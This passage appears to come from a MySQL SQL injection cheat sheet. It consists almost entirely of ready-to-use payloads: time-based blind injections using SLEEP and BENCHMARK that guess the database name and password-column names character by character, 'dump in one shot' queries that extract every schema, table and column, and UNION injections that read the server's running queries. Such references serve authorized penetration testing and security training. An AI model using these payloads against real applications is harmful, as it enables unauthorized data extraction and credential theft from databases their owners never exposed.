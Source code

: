 ### Using SLEEP in a subselect

```powershell
1 and (select sleep(10) from dual where database() like '%')#
1 and (select sleep(10) from dual where database() like '___')# 
1 and (select sleep(10) from dual where database() like '____')#
1 and (select sleep(10) from dual where database() like '_____')#
1 and (select sleep(10) from dual where database() like 'a____')#
...
1 and (select sleep(10) from dual where database() like 's____')#
1 and (select sleep(10) from dual where database() like 'sa___')#
...
1 and (select sleep(10) from dual where database() like 'sw___')#
1 and (select sleep(10) from dual where database() like 'swa__')#
1 and (select sleep(10) from dual where database() like 'swb__')#
1 and (select sleep(10) from dual where database() like 'swi__')#
...
1 and (select sleep(10) from dual where (select table_name from information_schema.columns where table_schema=database() and column_name like '%pass%' limit 0,1) like '%')#
```

### Using conditional statements

```sql
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()),1,1)))>=100,1, BENCHMARK(2000000,MD5(NOW()))) --
?id=1 AND IF(ASCII(SUBSTRING((SELECT USER()), 1, 1)))>=100, 1, SLEEP(3)) --
?id=1 OR IF(MID(@@version,1,1)='5',sleep(1),1)='2
```

## MYSQL DIOS - Dump in One Shot

```sql
(select (@) from (select(@:=0x00),(select (@) from (information_schema.columns) where (table_schema>=@) and (@)in (@:=concat(@,0x0D,0x0A,' [ ',table_schema,' ] > ',table_name,' > ',column_name,0x7C))))a)#
(select (@) from (select(@:=0x00),(select (@) from (db_data.table_data) where (@)in (@:=concat(@,0x0D,0x0A,0x7C,' [ ',column_data1,' ] > ',column_data2,' > ',0x7C))))a)#
```

## MYSQL Current queries

This table can list all operations that DB is performing at the moment.

```sql
union SELECT 1,state,info,4 FROM INFORMATION_SCHEMA.PROCESSLIST #

-- Dump in one shot example for the table content.
union select 1,(select(@)from(select(@:=0x00),(select(@)from(information_schema.processlist)where(@)in(@:=concat(@,0x3C62723E,state,0x3a,info))))a),3,4 #
```

## MYSQL Read content of a file
